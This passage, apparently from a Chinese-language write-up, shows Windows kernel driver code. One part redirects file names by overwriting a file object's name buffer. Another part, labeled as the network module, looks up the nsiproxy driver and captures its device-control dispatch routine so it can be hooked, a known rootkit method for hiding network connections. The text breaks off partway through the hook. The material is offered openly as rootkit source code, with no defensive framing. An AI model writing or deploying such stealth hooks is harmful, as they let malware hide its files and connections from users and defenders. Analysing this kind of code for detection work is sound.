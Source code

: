 ```cpp
		// 
		// ERR: Where is it freed?
		// Maybe it's automatically freed by the IO manager..
		//
		PVOID NewFileName = ExAllocatePoolWithTag(NonPagedPool, 520, 'pf');

		if (!NewFileName)
		{
			goto exit;
		}

		RtlZeroMemory(NewFileName, 520);
		
		RtlMoveMemory(NewFileName, RedirectionTarget, TargetNameLength);

		FileObjectName->Buffer = NewFileName;
		FileObjectName->MaximumLength = 520;
		FileObjectName->Length = (USHORT) (wcslen(NewFileName) * 2);
	}
	else
	{
		RtlZeroMemory(FileObjectName->Buffer, FileObjectName->MaximumLength);
		RtlMoveMemory(FileObjectName->Buffer, RedirectionTarget, TargetNameLength * 2);
		FileObjectName->Length = (USHORT)(TargetNameLength * 2);
	}
```

#### 网络模块

如法炮制,挂钩NSI模块

```cpp
NTSTATUS NetHookNsiProxy()
{
	UNICODE_STRING NsiProxyDriverName = RTL_CONSTANT_STRING(L"\\Driver\\nsiproxy");
	NTSTATUS Status;

	D_INFO("Hooking NsiProxy..");


	Status = ObReferenceObjectByName(
		&NsiProxyDriverName,
		OBJ_CASE_INSENSITIVE,
		NULL,
		0,
		*IoDriverObjectType,
		KernelMode,
		NULL,
		&g_NetNsiProxyDriverObject
	);

	if (!NT_SUCCESS(Status))
	{
		
		D_ERROR_STATUS("Could not find NsiProxy!", Status);
		return Status;
	}

	if (!g_NetOldNsiProxyDeviceControl)
	{
		g_NetOldNsiProxyDeviceControl = g_NetNsiProxyDriverObject->MajorFunction[IRP_MJ_DEVICE_CONTROL];

		if (g_NetOldNsiProxyDeviceControl == NULL)
```